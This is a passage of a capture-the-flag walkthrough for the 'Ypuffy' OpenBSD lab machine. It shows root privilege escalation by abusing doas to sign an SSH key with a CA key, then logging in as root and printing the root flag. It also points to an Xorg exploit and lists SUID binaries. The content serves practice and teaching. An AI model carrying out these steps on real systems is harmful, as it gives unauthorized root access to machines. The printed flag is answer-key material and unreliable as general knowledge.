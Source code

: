 ```bash
|        o B O % =|
|       o = * % @.|
|        S o O + *|
|         . = o ..|
|          + E    |
|           .     |
|                 |
+----[SHA256]-----+
ypuffy$ ls
id_rsa     id_rsa.pub 
```

- Running `doas`:
SSH-keygen for CA authentication requires:
``-I`` - Certificate ID for the user (Can keep anything for now, In a working environment, they could use this to track who was assigned a given cert.)
``-s`` - Specifies that I want to sign a public key using the given CA private key.
``-n`` - The principles to be included in the certificate.
``/tmp/id_rsa.pub`` - The public key that will be associated with the certificate.

```bash 
ypuffy$ doas -u userca /usr/bin/ssh-keygen -I root -s /home/userca/ca -n 3m3rgencyB4ckd00r /tmp/id_rsa.pub
Signed user key /tmp/id_rsa-cert.pub: id "root" serial 0 for 3m3rgencyB4ckd00r valid forever
```

Now, you can just login with the `id_rsa`, you earlier generated:
```bash
ypuffy$ ssh -i id_rsa root@localhost
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy# whoami
root
ypuffy# cat /root/root.txt
1265f8e0a1984edd9dc1b6c3fcd1757f
```
# Privesc via Xorg-x11-server
You can get this by simply finding exploits for OpenBSD 6.3.
> Google "openbsd 6.3 privilege escalation"
> [https://www.exploit-db.com/exploits/45742](https://www.exploit-db.com/exploits/45742)

or

If I check for SUID's present on ypuffy, I'll see Xorg-x11:
```bash
ypuffy$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/local/bin/pwned
```